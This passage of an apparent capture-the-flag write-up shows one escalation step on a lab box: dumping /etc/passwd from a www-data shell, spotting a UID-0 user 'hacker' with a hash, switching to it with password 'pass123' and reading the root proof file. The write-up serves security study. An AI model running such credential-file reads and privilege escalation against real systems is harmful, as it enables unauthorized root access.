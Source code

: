 # 2. Using credentials we found in /etc/passwd
- Remember we found credentials in /etc/passwd from LFI in the wordpress website earlier that we saved for later.
- Checking the /etc/passwd file reveals the user **hacker** is in the super users list.
```
www-data@ubuntu:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
....


....
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
raj:x:1000:1000:raj,,,:/home/raj:/bin/bash
mysql:x:122:128:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:124:65534::/run/sshd:/usr/sbin/nologin
hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1:0:0:root:/root:/bin/bash
www-data@ubuntu:/$ 

```
- Thus, we can login as a superuser using the credentials we found and use them to read proof.txt
```
www-data@ubuntu:/$ su hacker
su hacker
Password: pass123

root@ubuntu:/# ls
ls
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swapfile  usr  vmlinuz.old
root@ubuntu:/# cd /root 
cd /root
root@ubuntu:~# ls
ls
flag.txt  proof.txt
root@ubuntu:~# cat flag.txt
cat flag.txt
Your flag is in another file...
root@ubuntu:~# cat proof.txt
cat proof.txt
(redacted flag)
root@ubuntu:~# 

```

- And we thus solved this challenge box